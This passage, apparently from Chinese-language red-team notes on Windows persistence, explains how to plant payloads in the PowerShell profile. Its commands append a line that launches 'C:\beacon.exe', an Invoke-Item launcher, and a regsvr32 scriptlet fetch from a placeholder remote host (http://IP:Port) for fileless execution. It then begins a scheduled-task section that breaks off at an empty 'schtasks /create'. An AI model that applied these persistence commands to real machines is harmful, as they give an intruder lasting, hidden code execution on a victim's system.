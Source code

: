 ```cmd
```

### 7. PowerShell Profile

PowerShell 配置文件脚本存储在“ **WindowsPowerShell** ”文件夹中，默认情况下该文件夹对用户隐藏

如果有效负载已放入磁盘，则可以使用“ **Start-Process** ”cmdlet 来指向可执行文件的位置

使用 “ **Test-Path $profile** ” 确定当前用户是否存在配置文件

如果配置文件不存在，命令“ **New-Item -Path $profile -Type File -Force** ”将为当前用户创建配置文件，“ **Out-File** ”将使用新内容重写配置文件

```powershell
echo $profile
Test-Path $profile
New-Item -Path $profile -Type File –Force
$string = 'Start-Process "C:\beacon.exe"'
$string | Out-File -FilePath "C:\Users\administrator\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

与启动进程类似，“ **Invoke-Item** ”cmdlet 可用于执行项目的默认操作，即运行文件、打开应用程序等

```powershell
echo $profile
Test-Path $profile
New-Item -Path $profile -Type File –Force
Add-Content $profile "Invoke-Item C:\launcher.bat"
$string | Out-File -FilePath "C:\Users\administrator\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

“ **Invoke-Command** ”可以执行命令，regsvr32可以用作无文件上线，并且可以从远程位置执行 scriptlet

```powershell
echo $profile
Test-Path $profile
New-Item -Path $profile -Type File –Force
$string = 'Invoke-Command -ScriptBlock { regsvr32 /s /n /u /i:http://IP:Port/jWcEbr.sct scrobj.dll }'
$string | Out-File -FilePath "C:\Users\administrator\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1" -Append
```

## 0x03 Administrator

### 1. 计划任务

#### schtasks

将命令和程序计划为定期运行或在特定时间运行、在计划中添加和删除任务、按需启动和停止任务，以及显示和更改计划任务

##### 创建计划任务

```cmd
schtasks /create 
```
